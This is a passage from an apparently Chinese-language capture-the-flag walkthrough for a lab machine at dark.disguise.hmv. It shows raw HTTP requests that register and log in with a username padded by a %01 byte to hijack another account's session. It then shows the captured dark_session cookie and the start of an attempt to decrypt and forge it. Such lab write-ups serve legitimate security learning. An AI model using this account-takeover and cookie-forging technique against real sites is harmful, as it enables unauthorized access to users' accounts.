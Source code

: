 ```bash

username=simpleAdmin%01&password=pass&captcha=EGW42R
```

记得多放行几次，完成跳转才算注册成功！！！！

然后再劫持登录界面，修改用户名登录即可获取`dark_session`：

```bash
POST /login.php HTTP/1.1
Host: dark.disguise.hmv
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=cfbf7fm4s3lo22ggj87mpshcnk
Accept-Language: zh-CN,zh;q=0.9
Origin: http://dark.disguise.hmv
Content-Type: application/x-www-form-urlencoded
Referer: http://dark.disguise.hmv/login.php
Content-Length: 28

username=simpleAdmin%01&password=pass
```

获得相关内容：

```bash
GET /profile.php HTTP/1.1
Host: dark.disguise.hmv
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Referer: http://dark.disguise.hmv/login.php
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=cfbf7fm4s3lo22ggj87mpshcnk; dark_session=%2B1%2B3%2FNxCLcIR0Jq9qDudF8JwkfrsOdSxW16pbszGJLY%3D
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
```

尝试进行解密，伪造相关内容：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506210258216.png" alt="image-20250621012624453" style="zoom:50%;" />

```bash
fb5fb7fcdc422dc211d09abda83b9d17c27091faec39d4b15b5ea96eccc624b6
fb5fb7fcdc422dc211d09abda83b9d17
c27091faec39d4b15b5ea96eccc624b6
```
